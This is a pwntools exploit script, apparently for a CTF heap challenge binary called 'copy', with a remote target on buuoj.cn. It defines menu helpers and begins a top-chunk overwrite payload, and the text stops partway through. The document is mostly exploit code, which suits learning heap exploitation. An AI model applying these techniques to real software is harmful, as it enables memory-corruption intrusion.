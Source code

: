 # 本地Exp

```python
from pwn import *

local = 1
pc = './copy'
aslr = True
context.log_level = "debug"
#context.terminal = ["deepin-terminal","-m","splitscreen","-e","bash","-c"]
context.terminal = ['tmux','splitw','-h']
context.arch = "amd64"
context.os = "linux"

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF(pc)

if local == 1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
    p = process(pc,aslr=aslr)
else:
    remote_addr = ['node4.buuoj.cn', 6666]
    p = remote(remote_addr[0], remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    log.critical("{} -> {}".format(s, hex(addr)))

def add(size, content):
    ru("> ")
    sl("0")
    ru("size: ")
    sl(str(size))
    if len(content) <= size:
        sl(content)
    else:
        sn(content)

def copy(dst, src, size):
    ru("> ")
    sl("1")
    ru("dst: ")
    sl(str(dst))
    ru("src: ")
    sl(str(src))
    ru("len: ")
    sl(str(size))

def bye():
    ru("> ")
    sl("2")

if __name__ == "__main__":
    # step1: overwrite top_chunk size
    chunk0 = b"\x11"*0x30 + p64(0x45c0)*2
    chunk0 += b"\x11"*0x40 + p16(7)*3
```